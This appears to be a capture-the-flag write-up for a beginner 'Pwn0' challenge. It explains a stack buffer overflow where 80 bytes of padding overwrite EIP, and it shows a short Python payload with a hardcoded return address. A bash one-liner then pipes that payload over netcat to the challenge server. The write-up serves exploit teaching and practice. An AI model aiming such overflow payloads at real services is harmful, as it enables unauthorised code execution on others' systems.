




# Pwn0



It's just a programme which asks : "How's the josh?" and answer : "Your josh is low! Bye!"

If we put many number we got : 




so at index 80, we overwrite EIP registers.

so we have our offset, need what's inject !

in disassemble main programme, we can see :



so we just call the **movl** previous instruction.

so our injection seems like : 

```python
offset = "A"*80
payload = "\x57\x85\x04\x08"
```

```bash
python -c 'print offset+payload'|nc 104.154.106.182:1234
and get the flag !



```
